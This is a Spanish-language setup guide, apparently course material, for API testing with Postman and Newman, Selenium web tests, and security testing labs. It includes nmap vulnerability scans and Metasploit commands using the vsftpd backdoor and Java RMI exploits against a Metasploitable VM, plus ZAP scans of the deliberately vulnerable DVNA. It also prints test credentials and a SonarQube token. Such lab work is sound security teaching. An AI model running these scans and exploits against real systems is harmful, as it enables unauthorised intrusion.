


# Setup para testing de API con postman y newman





## Dependencias
```
sudo apt install jq
```

## Resolución de nombres

Agregar a /etc/hosts
```
127.0.0.1       api-users.smauec.net
127.0.0.1       api-rules.smauec.net
```
  

## Secretos

Crear archivos con credenciales

    cd ~/ceiot_base/TSIOT/system
    cp .env.template .env
    cd secrets
    cp auth.config.test.js.template auth.config.test.js 
    cp db.rule.config.test.js.template db.rule.config.test.js
    cp db.user.config.test.js.template db.user.config.test.js 
    cp user.admin.config.test.js.template user.admin.config.test.js 
    cd ..

## Imágenes de docker

Construir todas las imagenes 

    cd ./docker/containers/postgres
    docker build -t smauec/postgres:0.0.1 .
    cd -

    cd ./docker/containers/proxy
    docker build -t smauec/proxy:0.0.1 .
    cd -

    cd ./docker/containers/node
    docker build -t smauec/node:0.0.1 .
    cd -

    cd ./api_users
    docker build -t smauec/api-users:0.0.1 .
    cd -

    cd ./api_rules
    docker build -t smauec/api-rules:0.0.1 .
    cd -

## Carga inicial de postgres

En una terminal
```
cd ~/ceiot_base/TSIOT/system
docker-compose -p repo up
```

En otra terminal
```
docker exec -it repo_postgres_1 psql -U postgres 
```

Debe aparecer

```
Type "help" for help.

postgres=# 
```

Copiar y pegar

```
CREATE ROLE smauec_test WITH
  LOGIN
  NOSUPERUSER
  INHERIT
  NOCREATEDB
  NOCREATEROLE
  NOREPLICATION
  PASSWORD 'smauec_test';

CREATE DATABASE smauec_test
    WITH
    OWNER = smauec_test
    ENCODING = 'UTF8'
    LC_COLLATE = 'en_US.utf8'
    LC_CTYPE = 'en_US.utf8'
    TABLESPACE = pg_default
    CONNECTION LIMIT = -1;
```

Salir con exit

```
postgres=# exit
```

En la terminal de docker, control-C

## Ejecución 

En una terminal

```
cd ~/ceiot_base/TSIOT/system
docker-compose -p repo up
```

En otra terminal 

```
wget -SqO output.json --method=POST --header='Origin: http://www.smauec.net' --header='Content-Type: application/json' --body-data='{"username":"admin","password":"admin"}' http://api-users.smauec.net/api/auth/signin


wget -SqO- --header='Origin: http://www.smauec.net' --header="x-access-token:$(jq .result.accessToken output.json | cut -b 2- | rev | cut -b2- | rev )" http://api-users.smauec.net/api/users/
```


Tiene que aparecer algo como

```
{"status":200,"message":"users list","result":[{"id":1,"username":"admin","email":"admin@samauec.org","roles":[{"id":1,"name":"admin"},{"id":2,"name":"user"}]},{"id":2,"username":"user1","email":"user1@example.org","roles":[{"id":2,"name":"user"}]},{"id":3,"username":"user2","email":"user2@example.org","roles":[{"id":2,"name":"user"}]}]}
```

## Postman

### Instalación

Descargar postman de https://www.postman.com/downloads/

Elegir dónde descomprimir y tomar nota de la ruta, por ejemplo ~/bin

    tar -xzf /home/iot/snap/firefox/common/Downloads/postman-linux-x64.tar.gz

### Prueba

En una terminal

    ~/bin/Postman/Postman


Elegir "skip and go to the app"

```
File -> Import -> File -> Upload Files ->
~/ceiot_base/TSIOT/system/api_users/test ->
collection.json y globals.json
```

Elegir la colección importada -> run -> Run API Users

## Newman

### Instalación

    sudo npm install -g newman --registry=https://registry.npmjs.org

### Prueba

    cd ~/ceiot_base/TSIOT/system/api_users
    npm test

Esperamos algo como

```
> smauec_ua_api@0.0.1 test
> newman run test/collection.json -g test/globals.json
...
newman

API Users

❏ Not Authenticated
↳ Create User as nobody
  POST http://api-users.smauec.net/api/users [403 Forbidden, 440B, 184ms]
  ✓  API object
  ✓  Status code is coherent
  ✓  Status code is 403
```
El código de test no respeta la I (Isolation), pueden luego haber errores lo que no significa que haya fallado el paso.

# Setup para testing web con selenium

## Frontend a testear (falta testear bien por problemita ng)

    cd ~/ceiot_base/TSIOT/system/frontend
    npm install
    npm start


Con firefox acceder a http://localhost:4200, ver que se puede hacer login, cerrar.

## Selenium

    cd ~/ceiot_base/TSIOT/system/frontend_test
    npm install
    npm test


# Setup para testing de seguridad

## testssl

    sudo apt install testssl.sh
    
## wpscan

    sudo apt install ruby-dev ubuntu-dev-tools
    sudo gem install wpscan

Obtener una API KEY en https://wpscan.com/api, es conveniente guardarla en un archivo, por ejemplo wpscan.key con la forma KEY=xxxxxxx

    . wpscan.key
    wpscan --url $TARGET --api-token="$KEY"
    
## metasploit + metasploitable

Obtener la virtual de metasploitable en https://information.rapid7.com/download-metasploitable-2017.html y poner en marcha.

Obtener una virtual Kali en https://www.kali.org/get-kali/, ya sea instalando o bajando la VM y poner en marcha.

En una terminal obtener los servicios vulnerables:

    nmap -v --script vuln -p 21,1099 $METASPLOITABLE_IP
    
En la misma u otra terminal, para el puerto 21 (ftp), explotar:    
    
    msfconsole
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOSTS $METASPLOITABLE_IP
    exploit
    
Luego, para rmi (1099) igual pero con otro exploit:

    use exploit/multi/misc/java_rmi_server

Más información en https://docs.rapid7.com/metasploit/msf-overview/

## Proxies interceptores

Proyecto de referencia

    docker run --name dvna -p 9090:9090 -d appsecco/dvna:sqlite


### burpsuite

Bajar de https://portswigger.net/burp/releases el primer "Stable" habiendo elegido "Community Edition"

    sh /home/iot/snap/firefox/common/Downloads/burpsuite_pro_linux_v2022_11_2.sh
    
Instalar en /home/iot/bin/BurpSuiteCommunity, no crear symlinks, ejecutar con:

    /home/iot/bin/BurpSuiteCommunity/BurpSuiteCommunity    

### zap proxy

Bajar como "linux package" de https://www.zaproxy.org/download/ (el número de versión puede variar)

    cd ~/bin
    tar -xf /home/iot/snap/firefox/common/Downloads/ZAP_2.12.0_Linux.tar.gz
    cd ZAP_2.12.0/
    ../BurpSuiteCommunity/jre/bin/java -jar zap-2.12.0.jar


#### Ejecución automática

```
Standard mode
URL to attack: metasploitable IP / dvna (localhost:9090)
Attack (paciencia, horas)
Report: Generate report
```


#### Ejecución manual
    firefox -p
    new profile: zap
    connection settings
    manual proxy configuration
    localhost:8080

## sonarqube

Proyecto de referencia

    cd
    git clone https://github.com/appsecco/dvna

Instalación
    
    docker pull sonarqube

Ejecución del servidor

    docker run -d --name sonarqube -e SONAR_ES_BOOTSTRAP_CHECKS_DISABLE=true -p 9000:9000 sonarqube:latest

Interacción

```
localhost:9000, paciencia.... 
admin admin
Create project: manually
Project name/key: test
Analyze repository: locally
Provide a token, tomar nota de lo generado (Analyze "test": sqp_9a41a579a3fdf1b80ddce02f31d5a836dbece48b)
Run analysis on your project: Other, Linux, download and unzip, Linux 64-bit
```
Ejecutar el comando ejecutado ajustando lo que haga falta

    cd ~/bin
    unzip ~/Downloads/sonar-scanner-cli-4.7.0.2747-linux.zip
    ~/bin/sonar-scanner-4.7.0.2747-linux/bin/sonar-scanner \
    -Dsonar.projectKey=test \
    -Dsonar.sources=/home/iot/dvna \
    -Dsonar.host.url=http://localhost:9000 \
    -Dsonar.login=sqp_9a41a579a3fdf1b80ddce02f31d5a836dbece48b
```
http://localhost:9000/dashboard?id=test
```
    
    
    
